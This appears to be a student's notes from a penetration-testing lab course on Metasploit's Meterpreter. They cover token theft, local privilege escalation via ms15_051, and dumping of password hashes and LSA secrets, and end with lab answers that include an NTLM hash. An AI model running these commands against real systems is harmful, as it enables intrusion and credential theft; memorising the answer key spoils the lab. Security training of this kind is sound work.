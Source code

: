 The `Meterpreter` Payload is a specific type of multi-faceted, extensible Payload that uses `DLL injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes. Furthermore, Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.

## Running Meterpreter
To run Meterpreter, we only need to select any version of it from the `show payloads` output, taking into consideration the type of connection and OS we are attacking.

When the exploit is completed, the following events occur:
- The target executes the initial stager. This is usually a bind, reverse, findtag, passivex, etc.
- The stager loads the DLL prefixed with Reflective. The Reflective stub handles the loading/injection of the DLL.
- The Meterpreter core initializes, establishes an AES-encrypted link over the socket, and sends a GET. Metasploit receives this GET and configures the client.
- Lastly, Meterpreter loads extensions. It will always load `stdapi` and load `priv` if the module gives administrative rights. All of these extensions are loaded over AES encryption.

## Using Meterpreter
#### MSF - Meterpreter Migration
```shell-session
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.
```

```shell-session
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User             Path
 ---   ----  ----               ----  -------  ----             ----
 0     0     [System Process]                                             
 4     0     System                                                       
 216   1080  cidaemon.exe                                                 
 272   4     smss.exe                                                    
 292   1080  cidaemon.exe                                              
<...SNIP...>
 1712  396   alg.exe                                                      
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                              
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                              
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    

meterpreter > steal_token 183
Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Now that we have established at least some privilege level in the system, it is time to escalate that privilege. So, we look around for anything interesting, and in the `C:\Inetpub\` location, we find an interesting folder named `AdminScripts`. However, unfortunately, we do not have permission to read what is inside it.

#### MSF - Interacting with the Target
```cmd-session
c:\Inetpub>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               4 Dir(s)  18,125,160,448 bytes free


c:\Inetpub>cd AdminScripts

cd AdminScripts
Access is denied.
```

We can easily decide to run the local exploit suggester module, attaching it to the currently active Meterpreter session. To do so, we background the current Meterpreter session, search for the module we need, and set the SESSION option to the index number for the Meterpreter session, binding the module to it.

#### MSF - Session Handling
```shell-session
meterpreter > background
```

```shell-session
msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester
msf6 > use 0

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
```

Running the recon module presents us with a multitude of options. Going through each separate one, we land on the `ms15_051_client_copy_image` entry, which proves to be successful. This exploit lands us directly within a root shell, giving us total control over the target system.

#### MSF - Privilege Escalation
```shell
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1
msf6 exploit(windows/local/ms15_051_client_copy_image) > run


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

#### MSF - Dumping Hashes 
```shell
meterpreter > load kiwi
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

```shell
meterpreter > lsa_dump_sam
```

#### MSF - Meterpreter LSA Secrets Dump
```shell-session
meterpreter > lsa_dump_secrets
```



### Questions

1.  Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.


```shell
We found that port 5000 run a uPnP service over http and the login page is from FortiLogger. Viewing the source code we see it's FortiLogger version 3.1.7. Which is vulerable to unauthenticated file upload.\

msf > use windows/http/fortilogger_arbitrary_fileupload
msf > run

meterpreter > getuid
NT AUTHORITY\SYSTEM

meterpreter > load kiwi
meterpreter > lsa_dump_sam
RID  : 000003ea (1002)
User : htb-student
  Hash NTLM: cf3a5525ee9414229e66279623ed5c58
  
  
OR

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::

Answer 1: NT AUTHORITY\SYSTEM
Answer 2: cf3a5525ee9414229e66279623ed5c58
```
